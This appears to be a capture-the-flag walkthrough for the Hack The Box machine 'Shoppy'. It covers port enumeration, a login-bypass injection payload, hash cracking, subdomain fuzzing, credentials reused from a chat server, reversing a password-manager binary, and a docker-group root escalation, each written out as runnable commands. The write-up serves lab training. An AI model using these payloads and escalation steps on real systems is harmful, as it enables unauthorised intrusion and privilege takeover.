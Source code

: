 **Target: 10.10.11.180   Shoppy**

**Initial Access:**\
nmap -Pn 10.10.11.180 --min-rate=5000 -p- |grep open|awk -F '/' '{print $1}'|tr '\n' ','\
Output returns open ports: 22,80,9093

Enumerating these open ports further with nmap:	\
nmap -Pn 10.10.11.180 --min-rate=5000 -p 22,80,9093 -sC -sV -oN nmap.shoppy 
<image src= "https://user-images.githubusercontent.com/93153300/198384322-4abd0691-d1ba-480c-83bf-6f638330341c.png">
 
nmap shows port 80 tried to redirect to http://shoppy.htb.   In order for that to work, add into /etc/hosts: 10.10.11.180  shoppy.htb.

Navigating to the site or port 80 shows nothing of interest.  \
dirsearch -r -u http://10.10.11.180 -e txt,php,html -f -o dsearch.80 → Output reveals directory:  /login

Navigate to /login.  Trying default credentials does not work.  Trying sql injection to bypass login works on username parameter with: admin'||''==='	\
After bypassing the login with the sql injection, we are taken to /admin directory, and it shows:		
![image](https://user-images.githubusercontent.com/93153300/198384390-37a7c2bd-23b1-4edb-9cf2-e98cf5f79e00.png)

 
Click on “search for users” redirects to /search-users directory showing:
![image](https://user-images.githubusercontent.com/93153300/198384431-7acaf968-1d1f-439d-904b-69dcd92c2ad0.png)

Re-enter same sql injection as before: admin'||''===' \
After entering the sql injection, a new “Download export” icon appears on the page: 
![image](https://user-images.githubusercontent.com/93153300/198384528-b51f824d-ce28-441c-b187-cdb2b1230de6.png)
 
Click on “Download export” takes us to a new directory http://shoppy.htb/exports/export-search.json. More importantly, it reveals usernames and hashed passwords: 
![image](https://user-images.githubusercontent.com/93153300/198384579-873fae10-da1e-4445-a5bc-52a2a5b9b8d3.png)

Use john to crack the hash: \
john hash --wordlist=/usr/share/wordlists/rockyou.txt –format=raw-md5	→ cracked to: remembermethisway

Using these credentials for ssh fails.  Use wfuzz to search for subdomains: \
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://shoppy.htb/" -H "Host: FUZZ.shoppy.htb" --hl 7

wfuzz found one subdomain: mattermost. \
Go to /etc/hosts and add that in:  10.10.11.180   mattermost.shoppy.htb\
Navigate to http://mattermost.shoppy.htb → redirects to /login directory, which is a login page.  
![image](https://user-images.githubusercontent.com/93153300/198384606-7ee074ef-921d-4e17-a76a-0c6ce95ce604.png)
 
Enter josh’s credentials found before: username josh, password remembermethisway. It works, and it logs in.   Looking around on the website, the left side panel has different pages to navigate to.  Clicking on “Deploy Machine” and reading the chat we find credentials:
![image](https://user-images.githubusercontent.com/93153300/198384641-f59df065-7c28-4469-9cf1-b5200ad36a77.png)

Username: jaeger password: Sh0ppyBest@pp! 

ssh jaeger@shoppy.htb → when prompted for password enter  Sh0ppyBest@pp!\
 It works, we have shell as jaeger.  Open /home/jaeger/user.txt to get the flag.				
__________________________________________________________________________________
**Lateral Movement:**\
looking at /home directory shows user jaeger and user deploy.\
command sudo -l shows: User jaeger may run the following commands on shoppy: (deploy) /home/deploy/password-manager							

Run the sudo command: sudo -u deploy /home/deploy/password-manager   				
![image](https://user-images.githubusercontent.com/93153300/198384678-1cb09fae-9a94-4d99-823c-15eaea6a3783.png)

When we run the password-manager file, we are asked to enter a password.  If the wrong password is entered, as shown above, then it denies access.  Download this file, password-manager, to reverse engineer it. Reverse engineering this file might reveal the password.  After downloading, use r2 to reverse engineer this with the following commands:\
r2 password-manager  → aaa  → afl → pdf @main.\
Looking over the output r2 shows on password-manager, we find the password, Sample.  
![image](https://user-images.githubusercontent.com/93153300/198384704-040454e3-cda7-4b14-861a-924af4137a65.png)

Going back to the shell on jaeger, run the sudo command once again:  sudo -u deploy /home/deploy/password-manager.  When prompted for password enter “Sample”.  It works, and new credetinals are shown: 				
![image](https://user-images.githubusercontent.com/93153300/198384728-527a7223-3aeb-4469-bfff-0f5268a83c11.png)
 
Try ssh as user deploy.\
ssh deploy@shoppy.htb  → when prompted, enter the password:  Deploying@pp!\
We have shell as deploy.  					
________________________________________________________________________
**Privilege Escalation:**\
Running command: id   → shows that the user deploy is in the docker group.  Use this to escalate to root with command:\
docker run -v /:/mnt --rm -it alpine chroot /mnt sh.\
We have shell as root, open /root/root.txt to get the flag.
![image](https://user-images.githubusercontent.com/93153300/198384823-ebdca9f0-ef40-4af3-82dd-05bb2f126881.png)
